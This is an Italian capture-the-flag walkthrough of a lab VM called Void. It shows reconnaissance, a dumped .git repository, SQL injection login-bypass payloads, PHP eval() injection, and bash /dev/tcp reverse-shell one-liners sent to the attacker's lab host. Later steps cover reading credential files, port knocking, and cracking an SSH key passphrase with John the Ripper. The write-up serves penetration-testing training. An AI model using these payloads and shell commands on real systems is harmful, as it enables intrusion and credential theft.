







# Void - VDSI (Andrea Pepe - 08/07/2022)


## Foothold
### Network scanning
```
$ sudo nmap -sP 192.168.56.0/24   
[sudo] password di andrea: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-08 15:59 CEST
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.1
Host is up (0.00040s latency).
MAC Address: 0A:00:27:00:00:03 (Unknown)
Nmap scan report for 192.168.56.100
Host is up (0.0020s latency).
MAC Address: 08:00:27:69:97:98 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.109
Host is up (0.00092s latency).
MAC Address: 08:00:27:5B:FF:D2 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.101
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 1.97 seconds
```

La macchina target ha indirizzo IP **192.168.56.109**.


### Port scanning

```
$ sudo nmap -sS 192.168.56.109 -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-08 16:00 CEST

Nmap scan report for 192.168.56.109
Host is up (0.00075s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
MAC Address: 08:00:27:5B:FF:D2 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 112.99 seconds
```

```
$ sudo nmap -sC -sV 192.168.56.109 -p80,443
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-08 16:03 CEST
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.109
Host is up (0.00069s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-title: Welcome to nginx!
| tls-nextprotoneg: 
|_  http/1.1
| ssl-cert: Subject: commonName=void.vdsi/organizationName=vdsi/stateOrProvinceName=Rome/countryName=IT
| Not valid before: 2020-07-30T07:49:53
|_Not valid after:  2021-07-30T07:49:53
|_http-server-header: nginx/1.18.0 (Ubuntu)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
MAC Address: 08:00:27:5B:FF:D2 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.01 seconds
```

Vediamo dal certificato ssl che ha common name **void.vdsi** e lo andiamo a scrivere nel file _/etc/hosts_. Inoltre, lo scanning delle porte UDP non ha rilevato alcuna porta aperta.


### Web server
La pagina web http.//void.vdsi appare nel seguente modo:



Non sembra esserci nulla di interessante, quindi procediamo con uno scanning dei virtual host con _gobuster_.
```
$ gobuster vhost -u http://void.vdsi -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt 2>/dev/null
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://void.vdsi
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/07/08 16:08:03 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.void.vdsi (Status: 403) [Size: 162]
===============================================================
2022/07/08 16:08:14 Finished
===============================================================
```

E' stato trovato il vhost **dev.void.vdsi** e lo aggiungiamo ad _/etc/hosts_. Anche se dà codice HTTP 403, possiamo farne file enumeration, così come procederemo a farla per il dominio void.vdsi.

Per quest'ultimo, non viene trovato alcun file o directory. Mentre p er dev.void.vdsi, abbiamo:
```
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://dev.void.vdsi -x php,js,html,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dev.void.vdsi
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,js,html,txt
[+] Timeout:                 10s
===============================================================
2022/07/08 16:13:01 Starting gobuster in directory enumeration mode
===============================================================
/.git/HEAD            (Status: 200) [Size: 23]
/.hta                 (Status: 403) [Size: 162]
/.hta.js              (Status: 403) [Size: 162]
/.htaccess            (Status: 403) [Size: 162]
/.hta.html            (Status: 403) [Size: 162]
/.htpasswd.js         (Status: 403) [Size: 162]
/.htaccess.html       (Status: 403) [Size: 162]
/.htpasswd.html       (Status: 403) [Size: 162]
/.hta.txt             (Status: 403) [Size: 162]
/.htaccess.txt        (Status: 403) [Size: 162]
/.htpasswd.txt        (Status: 403) [Size: 162]
/.htpasswd            (Status: 403) [Size: 162]
/.htaccess.js         (Status: 403) [Size: 162]
/admin                (Status: 301) [Size: 178] [--> http://dev.void.vdsi/admin/]
/cgi-bin/.html        (Status: 403) [Size: 162]                                  
                                                                                 
===============================================================
2022/07/08 16:13:03 Finished
===============================================================
```

La cosa interessante è che viene esposta la cartella **.git** e possiamo farne il dump del repository col programma **git-dumper**.

```
$ git-dumper http://dev.void.vdsi/.git/HEAD repo
```

Vediamo che nella cartella admin ci sono le seguenti risorse (pagine php):
```
$ ls -la admin 
totale 24
drwxr-xr-x 2 andrea andrea 4096  8 lug 16.15 .
drwxr-xr-x 4 andrea andrea 4096  8 lug 16.15 ..
-rw-r--r-- 1 andrea andrea  314  8 lug 16.15 db.php
-rw-r--r-- 1 andrea andrea 1604  8 lug 16.15 index.php
-rw-r--r-- 1 andrea andrea 2753  8 lug 16.15 login.php
-rw-r--r-- 1 andrea andrea  224  8 lug 16.15 logout.php
```

Inoltre, c'è un file **.htpasswd** che ha le seguenti credenziali:
```
$ cat .htpasswd 
developer:$apr1$DrBMmMeV$TLf/vQ6C8HlBpi7Wt04eJ0
```

La password sembra essere una hash. Tuttavia, se si fa git log, sembrano esserci dei commit con dei commenti interessanti:
```
$ git log
commit 67e388737acf52030784f335bc39ea080c30d375 (HEAD -> master)
Merge: 0ec127b 0bb435a
Author: olivia <olivia@void.vdsi>
Date:   Thu Jul 30 10:27:34 2020 +0000

    Merge fixed

commit 0ec127b17d09565994beb216aa1c3eca797e96fc
Author: olivia <olivia@void.vdsi>
Date:   Thu Jul 30 10:26:32 2020 +0000

    Changed HTTP psw (same of the develop branch)

commit 0bb435a4e44c90e99a20cbe6a73b3a852d5c32fd
Author: olivia <olivia@void.vdsi>
Date:   Thu Jul 30 10:23:36 2020 +0000

    Oops, password was in plaintext

commit 4840127896d2a9470604a60c0bd35abe56f42344
Author: olivia <olivia@void.vdsi>
Date:   Thu Jul 30 10:23:12 2020 +0000

    Changed HTTP password

commit 0cbdc4203966260e81a5f0bb0751c2954155f4cf
Author: olivia <olivia@void.vdsi>
Date:   Thu Jul 30 10:22:17 2020 +0000

    Removed error reporting

commit 0c33948e376181c7eaf03121dd08c8e880089e9c
Author: olivia <olivia@void.vdsi>
Date:   Thu Jul 30 10:05:30 2020 +0000

    Added .htpasswd

commit c0c302a8478adadda81f5880017182c30ff3e02d
Author: olivia <olivia@void.vdsi>
Date:   Thu Jul 30 10:04:42 2020 +0000

    Added code for login and logout

commit b28eb4437408e46f670561ee487ffdee8d72ab4d
Author: olivia <olivia@void.vdsi>
Date:   Thu Jul 30 10:03:59 2020 +0000

    First commit
```

In particolare, vediamo che c'p un commit che dice che la password era stata scritta in plaintext. Facciamo il diff per vedere se riusciamo a recuperarla.


Proviamo ad usarla per accedere alla pagina index.php, che al momento della richiesta HTTP appare così: 



Il login ha successo e stavolta si viene ridirezionati alla pagina **login.php**, che appare con un ulteriore form di login:




Tuttavia, abbiamo accesso al codice sorgente della pagina. Coviene dargli un'occhiata per capire se è soggetto ad SQL injection e, se sì, come effettuarla:
```php
<?php

// Initialize the session
session_start();
 
// Check if the user is already logged in, if yes then redirect him to welcome page
if(isset($_SESSION["loggedin"]) && $_SESSION["loggedin"] === true){
    header("location: index.php");
    exit;
}
 
require_once "db.php";
 
$username = $password = "";
$error = "";
 
// Processing form data when form is submitted
if($_SERVER["REQUEST_METHOD"] == "POST"){
    // Validate credentials
    if(empty($error)){
	$username = $_POST['username'];
	$password = $_POST['password'];
	$hashed = hash('sha256', trim($password));
        $sql = "SELECT id, username, password FROM db_void.users WHERE (password = '$hashed' AND username = '$username')";
        $res = mysqli_query($link, $sql);
	if (!$res) {
		$error = 'Something went wrong';	
	} else {
		if (mysqli_num_rows($res) == 1) {
		    $value = mysqli_fetch_array($res);
		    session_start();
		    
		    $_SESSION["loggedin"] = true;
		    $_SESSION["id"] = $id;
		    $_SESSION["username"] = $value['username'];                            
		    
		    header("location: index.php");
		} else {
		    $error = "There are " . mysqli_num_rows($res) . " users with those credentials.";
		}
	}

    }
    // Close connection
    mysqli_close($link);
}
?>
 
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.css">
    <style type="text/css">
.row.center{
    position: absolute;
    top: 50%; left: 50%;
    transform: translate(-50%,-50%);
    height: 50%;
    width: 50%;
}    
img.resize {
    max-width: 30%;
    max-height: 30%;
}
img {
    float: left;
}
    </style>
</head>
<body>
<div class="row center">
    <div class="col-md-3"> </div>
    <div class="col-md-6">
        <form action="<?php echo htmlspecialchars($_SERVER["PHP_SELF"]); ?>" method="post">
	<div class="form-group">
	<br/>
        <h2>Login</h2>
	</div>
	<br/><br/>
            <div class="form-group <?php echo (!empty($error)) ? 'has-error' : ''; ?>">
                <label>Username</label>
                <input type="text" name="username" class="form-control" value="<?php echo $username; ?>">
            </div>    
            <div class="form-group <?php echo (!empty($error)) ? 'has-error' : ''; ?>">
                <label>Password</label>
                <input type="password" name="password" class="form-control">
                <span class="help-block"><?php echo $error; ?></span>
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
        </form>
    </div>    
    <div class="col-md-3"></div>
</div>
</body>
</html> 
```

La query al DB sulla quale concentrarci è la seguente:
```php
$sql = "SELECT id, username, password FROM db_void.users WHERE (password = '$hashed' AND username = '$username')";
```

Possimao provare a fare l'injection e a loggarci, inserendo come username:
```
') or 1=1 #
```
L'injection funziona, però non si riesce a loggarsi poiché ci viene detto che ci sono 3 utenti con lo username indicato e il login avviene solo se viene ritornata una sola riga come risultato della query SQL.




Proviamo allora a fargli ritornare una sola riga, facendo la group_concat degli username in una union select. Inseriamo nel form di login al posto dello username:
```
') union select 1, group_concat(username), "ciao" from db_void.users #
```

In questo modo il login ha successo e riusciamo anche a vedere in nomi dei 3 utenti:




Se proviamo a fare una computazione, ci viene detto che solo gli admin possono farlo. Infatti, guardando il codice php eseguito dalla pagina **index.php**, abbiamo che:
```php
<?php

// Initialize the session
session_start();

// Check if the user is logged in, if not then redirect him to login page
if(!isset($_SESSION["loggedin"]) || $_SESSION["loggedin"] !== true){
    header("location: login.php");
    exit;
}

if($_SERVER["REQUEST_METHOD"] == "POST"){
	if (isset($_POST['computation'])) {
		$toCompute = $_POST['computation'];
		if ($_SESSION['username'] !== 'admin') {
			$result = "Sorry, only admin user can compute";	
		} else {
			eval("\$result = " . $toCompute . ";");		
		}
	}
}
?>
```

Vediamo che solo gli admin possono effettuare operazioni e, inoltre che una chiamata alla funzione di PHP **eval()** che rappresenta una vulnerabilità, essendo che viene invocata con dell'input dell'utente come parametro. Se riuscissimo a loggarci come admin, potremmo usarla per fare injection di codice di php che verrà eseguito, provando ad ottenere una reverse shell.

Proviamo a sfruttare la SQL injection del form di login per loggarci come utente **admin**.
```
') union select 1,username, password from db_void.users where username='admin' #
```



Effettivamente, riusciamo a portare il flusso d'esecuzione fino alla eval(). Proviamo ad iniettare un payload in php per vedere se viene valutato.

```
phpinfo()
```

Funziona!!!


Proviamo ad ottenere una reverse shell. Ci mettiamo in ascolto sulla macchina Kali con:
```
nc -lvnp 4444
```

Proviamo con una reverse shell in bash e inseriamo nel form quanto segue:
```php
system("bash -c 'bash -i >& /dev/tcp/192.168.56.101/4444 0>&1'")
```
Ha funzionato!


## Privilege Escalation

### www-data
Dopo aver fatto l'upgrade della shell, vediamo quali sono gli utenti presenti nel sistema.
```
www-data@void:~/dev/admin$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
olivia:x:1000:1000:olivia,,,:/home/olivia:/bin/bash
phil:x:1001:1001:phil,,,:/home/phil:/bin/bash
```

In particolare, abbiamo gli utenti **olivia** e **phil**.


Vediamo che nella cartella dove siamo (/var/www/dev/admin), c'è un file **db.php** che contiene le credenziali di accesso al database. Nel file ottenuto con il dump del repository git, c'era solo lo username olivia, mentre qui figura anche la password:
```
www-data@void:~/dev/admin$ cat db.php 
<?php
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'olivia');
define('DB_PASSWORD', '0l1vi4_p455w0rd');
define('DB_NAME', 'db_void');
 
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);

// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```
Credenziali: **olivia:0l1vi4_p455w0rd**

Tuttavia, le credenziali non sono utili né per diventare utente olivia con **su**, né per estrapolare informazioni utili dal database.

In /var/www ci sono dei files interessanti:
```
www-data@void:~$ ls -la
total 28
drwxr-xr-x  5 root root 4096 Jul 30  2020 .
drwxr-xr-x 13 root root 4096 Jul 29  2020 ..
drwxr-xr-x  4 root root 4096 Jul 30  2020 dev
-rw-r--r--  1 root root  209 Jul 30  2020 developer_notes.txt
drwxr-xr-x  2 root root 4096 Jul 29  2020 html
drwxr-xr--  3 phil root 4096 Jul  8 15:55 internal
-rw-r--r--  1 root root  986 Jul  8 15:55 olivia_ssh_key
```

Questo è il contenuto di **developer_notes.txt**:
```
Note for all developers:
- In order to get access to the machine, please refer to knock configuration file to enable ssh
- The ssh key of olivia (our main developer) is here, please use it to connect via ssh.
```

Sembra che per sbloccare la porta ssh ci sia bisogno di eseguire una **sequenza di knocking**!
Inoltre, in **olivia_ssh_key** è presente la chiave ssh di olivia. La salviamo su un file in locale.
Tipicamente, la configurazione per il knocking è salvata in un file nominato _knockd.conf_. Localizziamolo sulla macchina target e leggiamone il contenuto per capire qual'è la seguenza di knocking da eseguire per abilitare ssh.
```
www-data@void:/$ whereis knockd.conf
knockd: /usr/sbin/knockd /etc/knockd.conf /usr/share/man/man1/knockd.1.gz
www-data@void:/$ cat /etc/knockd.conf 
[options]
	UseSyslog
	interface = eth0

[openSSH]
	sequence    = 300,150,600
	seq_timeout = 5
	command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn

[closeSSH]
	sequence    = 900,450,1800
	seq_timeout = 5
	command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
	tcpflags    = syn

```

Bisogna fare knocking in sequenza alle porte **TCP 300,150,600**.
Per farlo, costruiamo uno script che faccia il knocking:
```sh
#!/bin/sh

for i in 300 150 600; do
	nmap -Pn --host-timeout 201 --max-retries 0 -p $i void.vdsi;
done
```

Effettuando uno scan delle porte della macchina, vediamo che adesso la porta tcp 22 di ssh risulta essere aperta:
```
$ sudo nmap -sS void.vdsi
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-08 18:00 CEST
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for void.vdsi (192.168.56.109)
Host is up (0.00058s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
MAC Address: 08:00:27:5B:FF:D2 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 5.44 seconds
```

Proviamoci a connettere come utente **olivia** usando la chiave RSA.
```
chmod 600 olivia_ssh_key
shh olivia@void.vdsi -i olivia_ssh_key
```

La chiave è protetta da una passphrase e nessuna delle password fin qui trovate è in grado di sbloccarla. Cerchiamo di trovarla usando **John The Ripper**, ottenendo un hash per la passphrase da crackare con il comando **ssh2john**:
```
└─$ ssh2john olivia_ssh_key > passphrase.txt
                                                                                   
┌──(andrea㉿roronoa)-[~/PenTesting/htb/vdsi/void]
└─$ cat passphrase.txt 
olivia_ssh_key:$sshng$1$16$55392BEC7706EE646C8A93E9518511D2$624$9199b1f2defde3985cd57989d20daefa7f669e072340337272bfa91229c20a99a5b412f17e3fab75c6eb65ac93fc746827d669d772c21771725515be6051e35a021be805d7b75b7e7c526aa9efd97907c002ba90aab2b0c00bf72fcd14b83b21c55506954d321f4a8c9910dca380f73296a0378c145cc16cdd0869010a8ca09c3cf599c9d1a907e9563740b1537f69bdfc8764253000cb84dbf3e05916c2cc9550f76576979d9b76f0069bf2c3552f85d492a5dea96dc3860aa5156f7851b72019f6e17243364739de72975ca6c322e885a10129c325ab1399eb4701d8980b2b0a0493da25c75c66a26b99d24f10eddb7077d7e6cc39ad11d646b8422f3e6d2790f8596589341d0e028adee5d11be9d2c73bf96632d9acc765e8ee3a3c6bea5cac9ca3a3bff1ebff83189024f097fe871f82fd3cb0cb83cda0cb02898b008e8df3437dd0fd6088b07aed6620d8fb9f008df033850f6da73ac16b9afac1d399a2d9ef83545321cd10ccab0a13a14c41605c9ab7b68f094f102cb66744458fe424105f0015ed1e60a94d4aa06de9e6ccb10817960ec3c3a46e558b30b4842f510fc827717d9aee4f9b53b51f7ce63ff6b79b2dd8690bf10e5f9282f926da4a9317598800200f430012ebafdf0d96873f238b47d439bf7baa6e4f500eab7f9a54716a3d82bfb50c9a210344cc6e04b2bf2013b5680125222fc4c458b5ea0bc1ec2be36eee23cb0c265c50de7b90ede7982ecae05a124ee1e677984e45efde0363e8f6d55e8ac7ed34c29677a7be6033be1a8190cc0a214235922b64809e142a2f541072694f9ddff11d36da79db188ba48fe2091efd9b4d33180225ec7baad913230f99059f6d1a1cafd014e87a19cd380f
                                                                                   
┌──(andrea㉿roronoa)-[~/PenTesting/htb/vdsi/void]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt passphrase.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwerty           (olivia_ssh_key)     
1g 0:00:00:00 DONE (2022-07-08 18:22) 100.0g/s 3200p/s 3200c/s 3200C/s 123456..butterfly
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

La passphrase trovata è **qwerty** ! Proviamo allora ad entrare come utente olivia.


### olivia
Cerchiamo di raccogliere informazioni sul sistema. Per quanto riguarda l'utente phil, vediamo che possiede una cartella **/var/www/internal**, il che fa pensare che possa esserci un web server interno.

Infatti:
```
olivia@void:/var$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::443                  :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           - 
```

In particolare, vediamo che c'è aperta la porta TCP 3000 in localhost.
Provando a connetterci con netcat, non riceviamo alcuna risposta né banner e la connessione viene chiusa dopo qualche secondo.

Supponendo che si tratti di un web server, proviamo ad effettuare una richiesta con _curl_:
```
olivia@void:/var$ curl http://localhost:3000

Internal webapp to check process output
Example usage: /status?check=whoami
```

Ci viene suggerito un modo d'uso. Applichiamolo:
```
olivia@void:/var$ curl http://localhost:3000/status?check=whoami
phil
```
Vediamo che esegue come utente **phil**. Potremo usarlo per fare command execution e spawnare una shell. Ovviamente, servirà fare URL encoding.

Facciamo l'encoding del seguente comando, dopo esserci messi in ascolto in locale sulla porta 5555:
```
bash -c 'bash -i >& /dev/tcp/192.168.56.101/5555 0>&1'

bash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F192%2E168%2E56%2E101%2F5555%200%3E%261%27    
```


E siamo riusciti ad ottenere una shell come utente **phil**!


### phil
Vediamo il contenuto della home di phil. C'è un file il cui proprietario è root e che ha i permessi di setuid.



Provando ad eseguirlo, ci richiede una password. Tentiamo di eseguire il comando strings per vedere se è salvata in chiaro.


Una buona candidata sembra essere **StrongPsw**.

```
phil@void:~$ ./sendmsg 
Enter password: StrongPsw
Your message: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Your message: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Segmentation fault (core dumped)
```

La password ha funzionato e vediamo che inserendo un lungo messaggio, il programma va in segmentation fault. Può essere exploitato effettuando buffer overflow. Tuttavia, vediamo che è un eseguibile a 64-bit, fuori dalla mia portata (sadly).

```
phil@void:~$ file sendmsg 
sendmsg: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=916e9fbe5788a400b0fd593659dbc57c7b055c92, for GNU/Linux 3.2.0, not stripped
```

La mia avventura con questa macchina termina qui!